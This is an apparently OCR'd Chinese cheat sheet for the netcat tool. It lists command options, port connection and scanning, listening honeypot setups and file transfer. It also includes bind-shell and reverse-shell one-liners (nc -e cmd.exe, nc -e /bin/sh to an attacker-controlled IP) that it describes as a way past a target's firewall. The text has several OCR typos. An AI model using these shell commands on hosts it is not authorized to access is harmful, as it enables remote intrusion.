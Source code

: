     -d 后台模式
    
    -e prog程序重定向，一但连接就执行[危险]
    
    -i secs延时的间隔
    
    -l 监听模式，用于入站连接
    
    -L 监听模式，连接天闭后仍然继续监听，直到CTR+C
    
    -n IP地址，不能用域名
    
    -o film记录16进制的传输
    
    -p[空格]端口 本地端口号
    
    -r 随机本地及远程端口
    
    -t 使用Telnet交互方式
    
    -u UDP模式
    
    -v 详细输出，用-vv将更详细
    
    -w数字 timeout延时间隔
    
    -z 将输入，输出关掉（用于扫锚时）

基本用法：

nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

nc -l -p 80 开启本机的TCP 80端口并监听

nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

高级用法：

nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用

本机上用：nc -l -p 本机端口

在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K

nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

备 注：

| 管道命令
